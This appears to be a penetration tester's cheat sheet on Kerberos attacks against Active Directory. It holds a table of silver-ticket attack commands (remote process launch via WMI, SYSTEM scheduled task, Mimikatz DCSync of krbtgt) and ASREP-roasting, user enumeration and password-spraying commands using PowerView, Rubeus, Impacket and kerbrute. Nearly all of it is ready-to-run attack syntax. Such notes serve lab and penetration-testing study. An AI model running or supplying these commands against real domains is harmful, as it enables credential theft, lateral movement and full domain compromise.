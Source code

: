```yaml
---
description: Kerberoasting | ASPRoasting | Delegation | Printer Bug
---
```


# Kerberos

| Service Type                               | Service Silver Tickets | Attack                                                                                                           |
| ------------------------------------------ | ---------------------- | ---------------------------------------------------------------------------------------------------------------- |
| WMI                                        | HOST + RPCSS           | `wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"`                  |
| PowerShell Remoting                        | CIFS + HTTP + (wsman?) | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC`                                          |
| WinRM                                      | HTTP + wsman           | `New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC`                                          |
| Scheduled Tasks                            | HOST                   | `schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"` |
| Windows File Share (CIFS)                  | CIFS                   | `dir \\dc01\c$`                                                                                                  |
| LDAP operations including Mimikatz DCSync  | LDAP                   | `lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt`                                                     |
| Windows Remote Server Administration Tools | RPCSS + LDAP + CIFS    | /                                                                                                                |

### <mark style="color:yellow;">ASREP Roasting</mark>

If an account has Kerberos pre-authentication disabled i can request a TGT. Send a special AS\_REQ (Authentication Service Request) packet to the KDC, pretending to be the user. An AS\_REP is sent back with a key derived from password. With `GenericAll` its also possible to enable `DONT_REQ_PREAUTH`.

From Windows

```powershell
# Powerview
Get-DomainUser -UACFilter DONT_REQ_PREAUTH

# Enable DONT_REQ_PREAUTH with powerview
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose
# Rubeus
.\Rubeus.exe asreproast /user:john.doe /domain:zencorp.local /dc:dc01.zencorp.local /nowrap /outfile:hashes.txt
```

From Linux

```bash
# Bash with GetNPUsers.py
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

# Get Users
GetNPUsers.py zencorp.local/joe
kerbrute userenum usernamelist.txt --dc dc01.zencorp.local -d zencorp.local 

# With users list
GetNPUsers.py -usersfile users -format hashcat -dc-ip 172.16.8.3 'ZENCORP.LOCAL/'

# Password spray
kerbrute passwordspray usernamelist.txt pass@!23 --dc dc01.zencorp.local -d zencorp.local

# Get User hashes
GetNPUsers.py zencorp.local/joe -request

# GetNPUsers.py
```